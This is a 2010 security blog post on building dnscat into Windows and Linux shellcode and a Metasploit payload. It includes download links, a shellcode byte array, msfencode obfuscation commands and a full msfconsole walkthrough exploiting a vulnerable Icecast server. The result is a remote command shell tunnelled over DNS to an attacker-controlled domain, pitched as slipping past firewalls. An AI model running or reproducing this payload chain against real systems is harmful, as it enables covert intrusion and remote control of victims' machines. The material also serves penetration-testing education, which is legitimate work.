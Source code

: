 ```yaml
---
id: 611
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-18T08:50:52-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=611'
permalink: /2010/weaponizing-dnscat-with-shellcode-and-metasploit
categories:
    - DNS
    - Hacking
    - Tools
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode (or "weaponizing dnscat", as I enjoy saying). Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86 at a time, nor have I ever written shellcode, so this was an awesome learning experience. Most people start by writing shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes (for both Linux and Windows). Like I always say, go big or go home!
<!--more-->
If you just want to grab the files, here are some links:
<ul>
<li><a href='/blogdata/dnscat-shell-win32.asm'>Win32 shellcode - assembler</a></li>
<li><a href='/blogdata/dnscat-shell-win32'>Win32 shellcode - binary</a></li>
<li><a href='/blogdata/dnscat-shell-win32.h'>Win32 shellcode - C array</a></li>
<li><a href='/blogdata/dnscat-shell-win32.rb'>Win32 Metasploit module</a></li>
<li><a href='/blogdata/dnscat-shell-linux.asm'>Linux shellcode - assembler</a></li>
<li><a href='/blogdata/dnscat-shell-linux'>Linux shellcode - binary</a></li>
<li><a href='/blogdata/dnscat-shell-linux.h'>Linux shellcode - C array</a></li>
</ul>

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:
<pre>svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make</pre>

That'll compile both the standard dnscat client/server and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it. I installed Cygwin, but you can compile the Windows shellcode on Linux or vice versa if you prefer. The output will be in samples/shellcode-*/. A .h file containing the C version will be generated, as well:
<pre>$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
</pre>

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:
<pre> $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
</pre>

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:
<pre>get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; <-- To modify domain, change this...
 db 3,'org' ; <-- and this. The number is the section length.
 db 0
</pre>

The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. 

<h2>Encoding with msfencode</h2>
msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:
<pre>$ msfencode -b "\x00" < dnscat-shell-win32 > dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)
</pre>

If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. 

<h2>Metasploit payload</h2>
Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. 

First, there are a number of caveats:
<ul>
<li>This is highly experimental</li>
<li>This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the process</li>
<li>This is set up as a single stage, right now, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities</li>
<li>The dnscat server isn't part of Metasploit, yet, so you'll have to compile run it separately</li>
</ul>
That being said, it also works great when it's usable. The target I use for testing is <a href='http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe'>Icecast 2 version 2.0.0</a> (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs (thanks Ed!). It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are, 
<ol>
<li>Install <a href='http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe'>Icecast2</a> on your victim machine (Win32)</li>
<li>Download the experimental dnscat <a href='/blogdata/dnscat-shell-win32.rb'>Metasploit module</a> and put it in your Metasploit directory (modules/payloads/singles/windows/)</li>
<li>Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the <a href='/wiki/index.php/Dnscat'>dnscat wiki</a> for more information</li>
<li>Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:</li>
<pre>msf > use exploit/windows/http/icecast_header

msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32

msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221

msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org

msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
</pre>

Meanwhile, on your dnscat server, if all went well, you should see:
<pre>$ sudo ./dnscat --listen
Waiting for DNS requests for domain '*' on 0.0.0.0:53...
Switching stream -> datagram
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Program Files\Icecast2 Win32>
</pre>

You can type commands in, and they'll run just like a normal shell. Be warned, though, that it is somewhat slow, due to the nature of going through DNS. 

<h2>Why bother?</h2>
The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

<h2>Feedback</h2>
As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code. 

Thanks!
